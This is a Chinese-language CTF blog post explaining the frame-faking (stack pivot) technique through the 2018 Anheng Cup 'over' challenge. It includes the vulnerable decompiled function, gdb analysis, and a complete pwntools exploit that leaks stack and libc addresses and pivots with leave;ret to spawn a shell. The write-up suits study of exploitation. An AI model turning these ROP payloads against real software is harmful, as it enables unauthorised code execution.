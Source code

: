 ﻿---
layout:     post
title:      栈溢出基础浅记（5）
subtitle:   
date:       2023-10-12
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
    - ctf
---

## frame faking(栈伪造)

——from ctf wiki [花式栈溢出技巧](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/fancy-rop/#frame-faking)

这个方法其实就是利用leave，ret实现控制EBP，最终实现控制程序执行流。

### 2018 安恒杯 [over](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/fake_frame/over)

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  while ( sub_400676() )
    ;
  return 0LL;
}

int sub_400676()
{
  char buf[80]; // [rsp+0h] [rbp-50h]

  memset(buf, 0, sizeof(buf));
  putchar('>');
  read(0, buf, 96uLL);
  return puts(buf);
}
```

![16971205870941697120586276.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16971205870941697120586276.png)

使用gdb调试可以发现，在sub_400676中，buf大小为80，read最多能读入0x60。栈溢出共16字节，即只有rbp和返回地址。

注意：此时RBP的值即为当前函数返回后的RBP地址，从gdb中可以看到buf的地址+0x70=返回吼的RBP地址。

由于后者可以通过puts函数直接泄露，所以可以通过该地址-0x70泄露得到buf的地址。之后我们就可以通过栈溢出将当前rbp覆盖为buf的地址，返回地址用（leave，ret）覆盖。具体的思路如下图：

![1697121209095f80110eb7668327945bd41b8d0fbe02.jpg](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/1697121209095f80110eb7668327945bd41b8d0fbe02.jpg)

实际上共三个payload，第一个 `b"a" * 80`，通过下面的puts直接泄露出buf地址。

第二个用于得到libc的地址，第三个用于执行execve，这两个payload的栈布局都是按照上面的图片。

exp如下：

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from LibcSearcher import LibcSearcher

# context.log_level = "debug"
sh = process("./over.over")
file = ELF("./over.over")

sh.sendafter(b">", b"a" * 80)

stack = u64(sh.recvuntil(b"\x7f")[-6:].ljust(8, b"\0")) - 0x70
success("stack -> {:#x}".format(stack))

puts_plt = file.plt["puts"]
puts_got = file.got["puts"]
# ROPgadget --binary ./over.over --only "pop|ret" | grep rdi
# 0x0000000000400793 : pop rdi ; ret
pop_rdi_ret = 0x400793
sub_400676 = 0x400676
# ROPgadget --binary ./over.over --only "leave|ret"
# 0x00000000004006be : leave ; ret
leave_ret = 0x4006BE
payload = (
    b"11111111"
    + p64(pop_rdi_ret)
    + p64(puts_got)
    + p64(puts_plt)
    + p64(sub_400676)
    + (80 - 40) * b"1"
    + p64(stack)
    + p64(leave_ret)
)
sh.sendafter(">", payload)
puts_got_addr = u64(sh.recvuntil(b"\x7f")[-6:].ljust(8, b"\0"))
success("puts_got_addr -> {:#x}".format(puts_got_addr))

libc = LibcSearcher("puts", puts_got_addr)
libc_base = puts_got_addr - libc.dump("puts")
success("libc_base -> {:#x}".format(libc_base))

system_addr = libc_base + libc.dump("system")
binsh_addr = libc_base + libc.dump("str_bin_sh")
# ROPgadget --binary ./over.over --only "pop|ret" | grep rsi
# 0x0000000000400791 : pop rsi ; pop r15 ; ret
pop_rsi_r15_ret = 0x400791
# gdb.attach(sh, "b *0x4006ad\n")
payload = (
    b"22222222"
    + p64(pop_rdi_ret)
    + p64(binsh_addr)
    + p64(pop_rsi_r15_ret)
    + p64(0)
    + p64(0)
    + p64(system_addr)
    + (80 - 7 * 8) * b"2"
    + p64(stack - 0x30)
    + p64(leave_ret)
)
sh.sendafter(">", payload)
sh.interactive()

```

每次执行payload的时候，buf的位置有可能会不一样，需要用gdb先看看情况

![16971233675471697123367211.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16971233675471697123367211.png)

这里看到，第二次payload中的buf位置为f50，需要在原本的基础上-0x30
